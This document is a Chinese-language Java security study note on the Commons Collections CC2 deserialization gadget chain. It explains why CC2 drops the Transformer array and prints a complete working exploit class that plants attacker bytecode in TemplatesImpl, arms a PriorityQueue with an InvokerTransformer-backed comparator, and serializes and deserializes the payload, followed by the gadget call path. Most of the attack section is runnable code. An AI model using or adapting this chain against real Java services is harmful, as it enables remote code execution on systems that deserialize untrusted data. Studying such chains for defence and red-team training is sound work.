


# 08 · 反序列化链 · CC2

> 查阅区 · **只查不读**，不进学习路径。原文拆自 `JAVA安全-全本`，正文一字未改，仅调标题层级与图片相对路径。
> 什么时候翻：红队 M3；CC4 去掉 Transformer 数组的一版，因为 Shiro 的 resolveClass 加载不了数组

CC2利用链是在CC4的基础上抛弃了`Transformer[]`数组的使用，因为shiro漏洞重写了动态加载数组的方法，导致EXP无法通过数组实现，另外用`InvokerTransformer`连接前后部分而不再用`InstantiateTransformer`类初始化了。

- 大部分内容都一样，这里首先要修改一下`InvokerTransformer`，直接调用`newTransformer`，然后该方法无参，传入null即可

  ```java
  InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
  ```

- 然后是要将templates传入链条进行初始化，这里直接传入队列中代入后面执行

  ```java
  priorityQueue.add(templates);
  priorityQueue.add(2);
  ```

  - 这里之所以要第一个传入队列是因为后面调用`transform()`时首先执行第一个参数值

    

    

- 所以最终代码就出来了

  ```java
  package CC2;
  
  import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
  import org.apache.commons.collections4.functors.ConstantTransformer;
  import org.apache.commons.collections4.functors.InvokerTransformer;
  import org.apache.commons.collections4.comparators.TransformingComparator;
  
  import java.io.*;
  import java.lang.reflect.Field;
  import java.nio.file.Files;
  import java.nio.file.Paths;
  import java.util.PriorityQueue;
  
  public class CC2Test {
      public static void main(String[] args) throws Exception{
          TemplatesImpl templates = new TemplatesImpl();
          Class templatesClass = templates.getClass();
  
          Field name = templatesClass.getDeclaredField("_name");
          name.setAccessible(true);
          name.set(templates, "name");
  
          Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
          bytecodes.setAccessible(true);
          byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
          byte[][] codes = {code};
          bytecodes.set(templates, codes);
  
  
          InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
          TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));
  
          PriorityQueue<Object> priorityQueue = new PriorityQueue<>(transformingComparator);
  
          priorityQueue.add(templates);
          priorityQueue.add(2);
  
          Class<? extends TransformingComparator> transformingComparatorClass = transformingComparator.getClass();
          Field transformerField = transformingComparatorClass.getDeclaredField("transformer");
          transformerField.setAccessible(true);
          transformerField.set(transformingComparator, invokerTransformer);
  
          serialize(priorityQueue);
          deserialize("ser2.bin");
  
  
      }
  
      public static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser2.bin"));
          oos.writeObject(obj);
      }
  
      public static Object deserialize(String Filename) throws IOException, ClassNotFoundException {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object o = ois.readObject();
          return o;
      }
  }
  
  ```

- Gadget

  ```java
  PriorityQueue.readObject()
      heapify()->siftDown()->siftDownUsingComparator()
      TransformingComparator.compare()
      	InvokerTransformer.transform()
      		TemplatesImpl.newTransformer()
      			TemplatesImpl.newInstance()
  ```
